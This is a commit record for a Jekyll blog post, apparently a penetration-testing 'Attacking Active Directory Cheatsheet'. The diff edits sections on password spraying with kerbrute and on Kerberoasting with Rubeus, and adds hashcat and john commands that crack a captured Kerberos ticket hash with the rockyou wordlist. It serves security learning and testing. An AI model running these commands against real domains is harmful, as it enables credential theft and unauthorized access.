

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 900 px high, scrolled down 12699 px. Shown: the whole window, without its empty margins (229-1268 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

````diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -220,6 +220,7 @@
 ### Password Spraying
 ```shell
 # -------------------- kerbrute.py --------------------
+
 git clone https://github.com/TarlogicSecurity/kerbrute.git
 cd kerbrute
 
@@ -430,8 +431,16 @@
 # Using john to obtain the hash of jane
 ./Rubeus.exe kerberoast /domain:vorkharium.com /user:jane /creduser:vorkharium.com\john /credpassword:'Password123!' /nowrap
 
-# Cracking the hash
+# -------------------- Cracking the hash --------------------
+
+# With Hashcat
 hashcat -m 13100 jane_hash.txt /usr/share/wordlists/rockyou.txt
+hashcat -m 13100 -a 0 -o cracked_jane_hash.txt jane_hash.txt /usr/share/wordlists/rockyou.txt
+
+# With John
+sudo john --wordlist=/usr/share/wordlists/rockyou.txt jane_hash.txt
+sudo john jane_hash.txt --show
+
 ```
 ### AS-REP Roasting with Impacket
 ```shell
````
